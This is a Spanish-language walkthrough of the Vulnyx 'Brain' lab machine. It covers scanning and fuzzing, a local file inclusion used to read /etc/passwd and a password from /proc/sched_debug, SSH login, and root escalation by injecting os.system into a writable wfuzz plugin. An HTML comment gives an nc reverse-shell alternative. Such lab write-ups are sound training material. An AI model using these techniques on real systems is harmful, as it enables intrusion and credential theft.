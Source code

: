 ```yaml
---
layout: post
title: "Brain"
date: 2024-04-19 12:57:23
category: Vulnyx
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Brain </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#brain"> Vulnyx</a></td> </tr>
</table>

<br>

![serve](/notas/public/img/vulnyx/brain/host.png){:.margin}

**1\.** Verificamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![host](/notas/public/img/vulnyx/brain/arp_scan.png){:.margin}

**2\.** Escaneamos puertos del host víctima.

`sudo nmap -p- -sS -T5 -sCV --open --min-rate=5000 -n -Pn 192.168.1.7 -oN report_scan`

![host](/notas/public/img/vulnyx/brain/nmap.png){:.margin}

**3\.** Visitamos el servicio Apache por el puerto 80.

`http://192.168.1.7/`

![host](/notas/public/img/vulnyx/brain/80.png){:.margin}

**4\.** Hacemos fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.7/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![host](/notas/public/img/vulnyx/brain/gobuster.png){:.margin}

- Si visitamos index.php vemos lo mismo:

![host](/notas/public/img/vulnyx/brain/index.png){:.margin}

**5\.** Hacemos fuzzing de parámetros en busca de un LFI..

`wfuzz -c -t 50 --hl=7 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.7/index.php?FUZZ=/etc/passwd'`

![host](/notas/public/img/vulnyx/brain/wffuz.png){:.margin}

**6\.** Ingresamos la ruta completa con el parámetro hallado.

`http://192.168.1.7/index.php?include=/etc/passwd`

![host](/notas/public/img/vulnyx/brain/include.png){:.margin}

_tenemos inclusion de archivos locales (LFI)_

- Si presionamos `ctrl + u` podemos visualizar mejor, y encontramos el usuario ben:

![host](/notas/public/img/vulnyx/brain/ben.png){:.margin}

**7\.** incluimos el la ruta sched_debug, donde podemos ver la contraseña de ben.

`view-source:http://192.168.1.7/index.php?include=/proc/sched_debug`

![host](/notas/public/img/vulnyx/brain/sched_debug.png){:.margin}

_\- Si un servidor web tiene una vulnerabilidad LFI y permite acceder a esta ruta, un atacante podría obtener información confidencial, como contraseñas almacenadas en memoria._

**8\.** Accedemos por ssh al host como el usuario ben.

`ssh ben@192.168.1.7`

![host](/notas/public/img/vulnyx/brain/ssh_ben.png){:.margin}

**9\.** Listamos permisos sudo, podemos ejecutar el binario wfuzz como root.

`sudo -l`

![host](/notas/public/img/vulnyx/brain/sudo_l.png){:.margin}

_\- buscando en la web [gtfobins](https://gtfobins.github.io/#wfuzz) no encontramos referencia alguna._

**10\.** Buscamos archivos con permisos de escritura relacionados al binario wfuzz.

`find / -type f -writable 2> /dev/null | grep wfuzz`

![](/notas/public/img/vulnyx/brain/find.png){:.margin}

**11\.** Agregamos estas 2 lineas para obtener una bash.

`nano /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py`

`import os`

`os.system("/bin/bash")`

![](/notas/public/img/vulnyx/brain/nano.png){:.margin}

<!-- os.system("nc -e (/bin/sh 192.168.1.12 443") ///alternativa enivarnos una shell -->

**12\.** Ejecutamos el binario como root, ya somos superusuario.

`sudo /usr/bin/wfuzz -c -z range 1-2`

![](/notas/public/img/vulnyx/brain/root.png){:.margin}

**13\.** Finalizamos leendo la flag de root.

`cd`

`ls`

`cat root.txt`

![](/notas/public/img/vulnyx/brain/flag.png){:.margin}

<br>

<a href="#">_Finalizado._</a>